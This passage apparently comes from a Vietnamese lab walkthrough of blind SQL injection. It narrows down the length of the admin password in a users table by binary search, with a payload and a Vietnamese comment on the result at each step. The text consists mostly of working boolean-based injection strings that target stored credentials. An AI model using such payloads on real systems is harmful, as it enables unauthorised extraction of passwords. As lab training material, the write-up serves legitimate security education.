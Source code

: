       ![](./images/21-44-56.png)
      > Từ kết quả trả về, độ dài *password* nằm trong khoảng (25-50) => Rất có thể *password* đã bị mã hóa. 
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 37 -- -
      ```
      ![](./images/21-49-59.png)
      > Từ kết quả trên, độ dài *password* nằm trong khoảng (25-37)
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 31 -- -
      ```
      ![](./images/21-52-26.png)
      > Từ kết quả cho thấy độ dài *password* nằm trong khoảng (31-37)
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 34 -- -
      ```